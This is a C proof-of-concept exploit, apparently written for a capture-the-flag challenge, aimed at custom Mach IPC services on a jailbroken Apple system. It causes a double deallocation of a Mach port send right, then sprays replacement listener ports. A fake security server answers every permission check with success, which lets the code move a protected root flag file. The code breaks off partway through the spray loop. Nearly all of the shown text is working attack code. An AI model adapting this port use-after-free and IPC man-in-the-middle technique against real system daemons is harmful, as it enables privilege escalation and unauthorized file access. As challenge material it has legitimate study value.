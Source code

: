 ```c
mach_msg_return_t dispatch_mig_server(dispatch_source_t ds, size_t maxmsgsz, dispatch_mig_callback_t callback);

boolean_t security_server(
        mach_msg_header_t *InHeadP,
        mach_msg_header_t *OutHeadP);

kern_return_t SERVER_check_perm(mach_port_t server_port, uint32_t uid, string path) {
    NSLog(@"[+] IPC MitM successful!");
    return KERN_SUCCESS;
}

int main(int argc, char *argv[], char *envp[]) {
    mach_port_t sp = MACH_PORT_NULL, bs_port = MACH_PORT_NULL;
    task_get_bootstrap_port(mach_task_self(), &bs_port);
    const char *fileview_serv = "com.xia0o0o0o.fileviewerd";
    kern_return_t (*bootstrap_look_up)(mach_port_t, const char *, mach_port_t *) = dlsym(RTLD_DEFAULT, "bootstrap_look_up");
    kern_return_t kr = bootstrap_look_up(bs_port, fileview_serv, &sp);

    if (kr != KERN_SUCCESS) {
        return -1;
    }
    printf("[*] Get service of %s successully!\n", fileview_serv);

    mach_port_t sp2 = MACH_PORT_NULL;
    const char *security_serv = "com.xia0o0o0o.securityd";
    kr = bootstrap_look_up(bs_port, security_serv, &sp2);

    if (kr != KERN_SUCCESS) {
        return -1;
    }
    printf("[*] Get service of %s successully!\n", security_serv);

    CLIENT_register_callback(sp, sp2); // global = sp2
    sleep(2);
    CLIENT_register_callback(sp, sp2); // deallocate sp2
    sleep(2);
    CLIENT_remove_callback(sp); // double deallocate sp2

    dispatch_queue_t replyQueue = dispatch_queue_create("replyQueue", NULL);
    char* result = malloc(0x1024);
    for(size_t cnt = 0; cnt < 10000; ++cnt) {

        mach_port_t listener, listener_send_right;
        mach_msg_type_name_t aquired_right;
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &listener);
        mach_port_extract_right(mach_task_self(), listener, MACH_MSG_TYPE_MAKE_SEND, &listener_send_right, &aquired_right);
        CLIENT_register_callback(sp, listener_send_right);

        dispatch_source_t source = dispatch_source_create(DISPATCH_SOURCE_TYPE_MACH_RECV, listener, 0, replyQueue);
        dispatch_source_set_event_handler(source, ^{
            dispatch_mig_server(source, MAX_MSG_SIZE, security_server);
        });
        dispatch_resume(source);

        const char *payload = 
            "/var/jb/var/root/flag";
        const char *dst = "/var/jb/usr/local/bin/flag";
        kr = CLIENT_move_file(sp, payload, dst);
        
```